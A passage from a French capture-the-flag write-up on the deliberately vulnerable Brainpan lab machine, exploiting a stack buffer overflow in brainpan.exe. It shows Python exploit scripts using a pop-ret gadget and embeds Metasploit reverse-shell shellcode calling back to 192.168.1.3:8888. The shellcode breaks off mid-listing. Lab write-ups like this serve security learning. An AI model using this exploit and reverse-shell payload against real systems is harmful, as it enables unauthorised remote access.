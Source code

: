 Cool ! Le second dword sur la stack est un pointeur vers le début du buffer.  

Si on veut faire un exploit stable il suffit de trouver dans le code une instruction pop-ret qui dépile le premier dword et saute vers le buffer.  

Avec *ROPgadget* (*./ROPgadget.py --binary ../brainpan.exe*) on obtient rapidement ce que l'on souhaite (*0x311712f8 : pop ebx ; ret*)  

On vérifie cela en plaçant des 0xCC (sigtrap) dans le buffer qui seront attrapées par le débugger si on saute effectivement dessus :  

```python
import struct
import socket

popret = 0x311712f8
buff = "\xcc" * 524 + struct.pack("I", popret)

sock = socket.socket()
sock.connect(('127.0.0.1', 9999))
sock.recv(1024)
sock.send(buff)
raw_input("Press enter to continue")
sock.close()
```

Et c'est le win !  

![brainpan win32 sigtrap](https://raw.githubusercontent.com/devl00p/blog/master/images/brainpan_1/debug_payload.png)

Après avoir cherché un shellcode potable sur le web je m'en suis finalement remis à *Metasploit* car ça reste la crème de la crème (la cerise sur le gâteau) :  

```python
import struct
import socket

popret = 0x311712f8

# msfpayload windows/shell_reverse_tcp LHOST=192.168.1.3 LPORT=8888 R | msfencode -b '\x00' -t python
# [*] x86/shikata_ga_nai succeeded with size 341 (iteration=1)

shellcode =  ""
shellcode += "\xbf\xdc\x1d\x7c\x85\xda\xca\xd9\x74\x24\xf4\x58\x31"
shellcode += "\xc9\xb1\x4f\x31\x78\x14\x83\xe8\xfc\x03\x78\x10\x3e"
shellcode += "\xe8\x80\x6d\x37\x13\x79\x6e\x27\x9d\x9c\x5f\x75\xf9"
shellcode += "\xd5\xf2\x49\x89\xb8\xfe\x22\xdf\x28\x74\x46\xc8\x5f"
shellcode += "\x3d\xec\x2e\x51\xbe\xc1\xee\x3d\x7c\x40\x93\x3f\x51"
shellcode += "\xa2\xaa\x8f\xa4\xa3\xeb\xf2\x47\xf1\xa4\x79\xf5\xe5"
shellcode += "\xc1\x3c\xc6\x04\x06\x4b\x76\x7e\x23\x8c\x03\x34\x2a"
shellcode += "\xdd\xbc\x43\x64\xc5\xb7\x0b\x55\xf4\x14\x48\xa9\xbf"
shellcode += "\x11\xba\x59\x3e\xf0\xf3\xa2\x70\x3c\x5f\x9d\xbc\xb1"
shellcode += "\x9e\xd9\x7b\x2a\xd5\x11\x78\xd7\xed\xe1\x02\x03\x78"
shellcode += "\xf4\xa5\xc0\xda\xdc\x54\x04\xbc\x97\x5b\xe1\xcb\xf0"
shellcode += "\x7f\xf4\x18\x8b\x84\x7d\x9f\x5c\x0d\xc5\xbb\x78\x55"
shellcode += "\x9d\xa2\xd9\x33\x70\xdb\x3a\x9b\x2d\x79\x30\x0e\x39"
shellcode += "\xfb\x1b\x47\x8e\x31\xa4\x97\x98\x42\xd7\xa5\x07\xf8"
shellcode += "\x7f\x86\xc0\x26\x87\xe9\xfa\x9e\x17\x14\x05\xde\x3e"
shellcode += "\xd3\x51\x8e\x28\xf2\xd9\x45\xa9\xfb\x0f\xc9\xf9\x53"
shellcode += "\xe0\xa9\xa9\x13\x50\x41\xa0\x9b\x8f\x71\xcb\x71\xa6"
shellcode += "\xb6\x5c\xba\x11\x39\x9e\x52\x60\x39\x82\x1a\xed\xdf"
shellcode += "\xa8\x4a\xb8\x48\x45\xf2\xe1\x02\xf4\xfb\x3f\x82\x95"
shellcode += "\x6e\xa4\x52\xd3\x92\x73\x05\xb4\x65\x8a\xc3\x28\xdf"
shellcode += "\x24\xf1\xb0\xb9\x0f\xb1\x6e\x7a\x91\x38\xe2\xc6\xb5"
shellcode += "\x2a\x3a\xc6\xf1\x1e\x92\x91\xaf\xc8\x54\x48\x1e\xa2"
```